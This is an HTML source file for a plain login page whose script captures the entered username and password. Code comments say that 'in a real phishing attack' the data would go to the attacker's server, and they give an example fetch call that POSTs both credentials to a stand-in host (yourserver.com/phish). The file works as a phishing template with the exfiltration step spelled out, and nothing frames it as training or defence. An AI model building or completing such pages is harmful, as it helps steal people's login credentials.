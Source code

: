 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <style>
        body { font-family: Arial, sans-serif; }
        .login-form { width: 300px; margin: 0 auto; }
    </style>
</head>
<body>
    <div class="login-form">
        <h2>Login</h2>
        <form id="loginForm">
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username" required><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password" required><br><br>
            <input type="submit" value="Login">
        </form>
    </div>
    <script>
        document.getElementById('loginForm').addEventListener('submit', function(event) {
            event.preventDefault();
            var username = document.getElementById('username').value;
            var password = document.getElementById('password').value;

            // Simulate sending data to a server
            console.log('Username:', username);
            console.log('Password:', password);

            // In a real phishing attack, you would send this data to your server
            // Example: fetch('https://yourserver.com/phish', { method: 'POST', body: JSON.stringify({ username: username, password: password }) })
        });
    </script>
</body>
</html>
